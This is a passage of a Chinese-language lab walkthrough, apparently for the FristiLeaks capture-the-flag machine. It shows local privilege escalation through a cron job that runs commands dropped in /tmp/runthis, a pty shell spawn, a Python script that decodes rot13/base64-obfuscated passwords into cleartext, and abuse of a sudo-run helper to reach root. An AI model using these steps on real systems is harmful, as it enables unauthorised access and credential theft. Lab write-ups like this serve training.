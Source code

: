     ```php

    进去home目录，cd 到eezeepz目录下，发现notes.txt，cat之发现提示，说在/tmp目录下创建一个runthis的文件夹，每行写一个命令，每分钟会执行一次并且结果会出在/tmp/cronresult目录下

    /home/admin目录下还有几个能用的命令，chmod、df、cat、echo、ps、grep、egrep

    python -c import 'import pty;pty.spawn("/bin/bash")'

    echo '/home/admin/chmod 777 /home/admin' > runthis

    然后就可以读admin目录里面的内容

    ls /home/admin

    发现 cryptpass.py、whoisyourgodnow.txt、cryptedpass.txt

    加密后密码mVGZ3O3omkJLmy2pcuTq
    whoisyourgodnow:=RFn0AKnlMHMPIzpyuTI0ITG

    ```

    加密脚本和解密脚本

    ```python

    python
    import base64,codecs,sys         ---使用python导入base64,codecs,sys模块module！
    rot13Str = "mVGZ3O3omkJLmy2pcuTq"
    base64Str = codecs.decode(rot13Str[::-1], 'rot13')  --用codecs编码转换[::-1]，decode编码转换rot13
    clearTextStr = base64.b64decode(base64Str)    ---base64Str进行decode进行base64解码
    print (clearTextStr)          ---打印出clearTextStr

    import base64,codecs,sys
    rot13Str = "=RFn0AKnlMHMPIzpyuTI0ITG"
    base64Str = codecs.decode(rot13Str[::-1], 'rot13')
    clearTextStr = base64.b64decode(base64Str)
    print (clearTextStr)

    ```

    解密后

    ```php

    
    cryptedpass:        thisisalsopw123
    whoisyourgodnow:    LetThereBeFristi!

    尝试切换到fristigod

    成功登录，history

    发现重复以下命令

    sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom

    尝试执行

    sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom su -

    发现切换到了root用户
